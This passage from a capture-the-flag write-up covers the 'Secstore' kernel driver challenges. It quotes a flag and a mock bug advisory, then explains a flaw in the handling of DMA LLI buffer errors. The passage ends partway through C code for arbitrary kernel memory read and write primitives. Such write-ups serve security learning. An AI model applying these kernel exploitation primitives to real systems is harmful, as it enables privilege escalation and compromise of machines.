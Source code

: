 Hilariously, the flag includes a stackoverflow link where someone suggested this
code

    SaF{so_easy_to_write_kernel_drivers_with_stackoverflow_https://stackoverflow.com/a/5540080}

The full exploit is available at the bottom of this page.

## Secstore 2

### Trivial?

    SSE-2020-17866: Memory corruption in secure storage - Fixed
    Severity: Medium
    Reported: May 09, 2020 06:20
    Submitter: p4
    A possible memory corruption primitive exists in the secure storage driver with
    unknown impact. 
    A patch prevents the root cause of the corruption. 
    
    All previously reported bugs are fixed in our product, unfortunately our open
    source mirror has not been updated yet. This should not discourage talented bug
    hunters, the updated release is available here.

So for part 2, we won't be given source, but instead we are only given the
compiled (updated) driver.

The new driver, while not completely rewritten, does actually have quite a few
changes. It adds a new `proc` entry which is most likely intended to be used for
the info leak. The original bug is patched by using `copy_from_user` to read the
arguments into `secs_do_dma`, and the `map_to_kernel` function is completely inlined
away.

Ultimately, I didn't do much reversing on the differences, because I noticed the
error cases while processing the LLI buffer just print an error and continue
rather than breaking the loop. This lets us trivially pass arbitrary kernel
addresses to the DMA:
```c
    uint64_t read_kernel(int fd, uint64_t kaddr, uint64_t size) {
        memset(buf, 0, sizeof(struct lli) * 4);
        buf[0].src  = a;
        buf[0].size = 0x10;
        buf[1].src  = kaddr;
        buf[1].dst  = 0x100;
        buf[1].size = size;
        buf[1].ctrl = PL666_LLI_MORE;
        write(fd, buf, sizeof(struct lli) * 2);
        memset(a, 0x0, size);
        buf[0].dst  = a;
        buf[0].src  = 0x100;
        buf[0].size = size;
        read(fd, buf, sizeof(struct lli));
        void * data = malloc(size);
        memcpy(data, a, size);
        return data;
    }
    uint64_t write_kernel(int fd, uint64_t kaddr, void * uaddr, uint64_t size) {
        memcpy(a, uaddr, size);
        buf[0].src = a;
        buf[0].dst = 0x1000;
        buf[0].size = size;
        write(fd, buf, sizeof(struct lli));    
        memset(buf, 0, sizeof(struct lli) * 4);
        buf[0].dst  = a;
        buf[0].size = 0x10;
        buf[1].dst  = kaddr;
        buf[1].src  = 0x1000;
```